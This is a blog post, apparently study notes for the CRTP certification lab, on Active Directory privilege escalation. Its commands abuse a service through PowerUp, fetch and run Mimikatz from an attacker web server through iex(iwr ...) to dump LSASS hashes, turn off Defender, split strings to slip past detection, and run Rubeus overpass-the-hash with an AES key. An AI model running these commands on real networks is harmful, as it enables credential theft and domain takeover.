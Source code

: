 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## Local Privilege Escalation

 In Active Directory Environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

 There are various ways of locally escalting privilege on Windows:
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

 We can use below tools for complete coverage:
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## Check for any privilege escalation path - PowerUp

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

{: .prompt-info }
```bash
#Check for any priviliege escalation path
Invoke-AllChecks

#Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

Now, our user is a local admin !

## Identify any machine in the domain where our user has local administrative - Find-PSRemotingLocalAdminAccess.ps1

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 

{: .prompt-info }
```bash
#Identify a computer within the network domain where the current user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```

We can connect to the machine who has the local administrative access by using winrs
{: .prompt-info }
```bash
winrs -r:dcorp-adminsrv cmd

#Checking the username and computername in the remote winrs session
set username
set computername
```

We can also use PowerShell Remoting
{: .prompt-info }
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## Identify a machine in the domain where a Domain Admin session is available - PowerView

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.
{: .prompt-info }
```bash
Find-DomainUserLocation
```

## Extract Credentials from LSASS - Invoke Mimikatz

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Check if we can run commands on dcorp-mgmt using PowerShell remoting
{: .prompt-info }
```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```

Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin. This script is to downloads and executes the Invoke-Mimi.ps1 that is hosted in my web server.
{: .prompt-info }
```bash
 iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Then, we need to bypass the AMSI using our [script](https://beardenx.github.io/posts/Bypass-AMSI-Like-a-King/). OR

we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt

{: .prompt-info }
```bash
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
```

## Using OverPass-the-Hash - Rubeus

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Run the below commands from an elevated shell on the student VM to use Rubeus.
{: .prompt-info }
```bash
ArgSplit.bat

#Run the above commands in the same command prompt session
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

{: .prompt-info }
```bash
Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now, we get our TGT Ticket. Try accessing the domain controller from the new process!
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X.
{: .prompt-info }
```bash
winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
```

## Domain Admin Escalation using Derivative Local Admin - Find-PSRemotingLocalAdminAccess.ps1

{: .prompt-info }
```bash
 Find-PSRemotingLocalAdminAccess
```

Bypassing Applocker

